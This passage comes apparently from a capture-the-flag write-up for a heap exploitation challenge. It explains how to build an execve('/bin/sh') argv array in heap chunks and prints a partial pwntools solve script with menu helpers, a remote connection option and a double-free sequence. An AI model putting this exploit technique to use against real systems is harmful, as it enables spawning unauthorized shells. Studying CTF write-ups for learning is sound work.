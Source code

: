 ```c
execve("/bin/sh", {"sh", NULL}, 0)
```

I placed the `/bin/sh` string in the first chunk I allocated. Later, I edited another chunk to create the argv array for the execve syscall: the first QWORD points to the `/bin/sh` string, and the second QWORD is set to 0. This is necessary because if the second **QWORD (i.e., argv[1]) isn’t NULL**, the shell won’t spawn properly. Additionally, since pwntools automatically sends a newline character with `sendline()`, it’s important to account for that when constructing your payload.

The final solve script:

```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw, ssl=False)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
'''.format(**locals())

exe = './chal'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
libc = ELF("./libmimalloc.so.2.2", checksec=False)

sla = lambda delim, data: io.sendlineafter(delim, data)
sa = lambda delim, data: io.sendafter(delim, data)
sl = lambda data: io.sendline(data)
s = lambda data: io.send(data)
ru = lambda delim: io.recvuntil(delim)
rl = lambda: io.recvline()
r = lambda num=4096: io.recv(num)

def u32d(data): return u32(data.ljust(4, b'\x00'))
def u64d(data): return u64(data.ljust(8, b'\x00'))

io = start()

def create(position):
    sla(b'> ', b'1')
    sla(b': ', str(position))

def delete(position):
    sla(b'> ', b'2')
    sla(b': ', str(position))

def show(position):
    sla(b'> ', b'3')
    sla(b': ', str(position))

def edit(position, content):
    sla(b'> ', b'4')
    sla(b': ', str(position))
    sla(b': ', content)
    
create(0)
edit(0, b'A' * 8 + b'/bin/sh\x00')
delete(0)
delete(0)
```